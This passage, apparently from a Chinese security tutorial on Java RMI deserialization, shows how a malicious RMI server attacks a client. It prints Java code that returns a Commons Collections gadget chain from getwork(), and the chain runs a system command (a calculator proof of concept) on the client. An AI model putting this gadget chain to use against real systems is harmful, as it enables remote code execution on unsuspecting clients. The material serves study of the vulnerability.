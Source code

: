 服务器端会执行命令：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201224121444-8d62e3d8-459e-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201224121444-8d62e3d8-459e-1.jpg)

### 四、服务端攻击客户端

跟客户端攻击服务端一样，在客户端调用一个远程方法时，只需要控制返回的对象是一个恶意对象就可以进行反序列化漏洞的利用了。这里我在原来 RMI 测试例子的基础上加了一个`getwork()`方法。

UserImpl.java

```
package SimpleRMI_2;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;
import java.util.HashMap;
import java.util.Map;

public class UserImpl extends UnicastRemoteObject implements User {

    public UserImpl() throws RemoteException{
        super();
    }
    public String name(String name) throws RemoteException{
        return name;
    }
    public void say(String say) throws  RemoteException{
        System.out.println("you speak" + say);
    }
    public void dowork(Object work) throws  RemoteException{
        System.out.println("your work is " + work);
    }

    public Object getwork() throws RemoteException {
        Object evalObject = null;
        try {
            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod",
                            new Class[] {String.class, Class[].class},
                            new Object[] {"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke",
                            new Class[] {Object.class, Object[].class},
                            new Object[] {null, new Object[0] }),
                    new InvokerTransformer("exec",
                            new Class[] {String.class},
                            new Object[] {"open -a Calculator"})
            };
            Transformer transformerChain = new ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            innerMap.put("value", "Threezh1");
            Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
            Class AnnotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor cons = AnnotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
```